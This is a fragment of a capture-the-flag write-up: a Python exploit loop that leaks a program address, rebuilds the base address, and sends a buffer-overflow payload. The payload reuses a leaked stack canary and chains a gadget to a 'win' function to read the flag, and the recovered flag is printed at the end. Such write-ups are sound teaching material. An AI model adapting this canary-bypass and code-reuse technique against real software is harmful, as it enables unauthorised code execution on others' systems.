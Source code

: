 ```python
        result = conn.clean(timeout=5)
        
        if b"input> " not in result:
            # try again
            conn.close()
            continue
        
        main_addr = int.from_bytes(result[len(payload)-2:][:6], 'little')
        success("Address of main_inner: " + hex(main_addr))
        
        base_addr = main_addr & 0xfffffffffffff000
        
        mov_rdi_rsp = base_addr | 0x2b4
        win_addr = base_addr | 0x24e
        
        payload = padding + canary + b"B" * 8
        payload += p64(mov_rdi_rsp)
        payload += b"flag\x00\x00\x00\x00"
        payload += p64(win_addr)

        assert(len(payload) <= 0x300)
        conn.send(payload)
        
        print(conn.clean(timeout=5))
    
        conn.close()
        
        break
    except:
        conn.close()
        
    sleep(1)
```

Flag: `Th1s_1s_b34ut1fu1_c4n4ry`
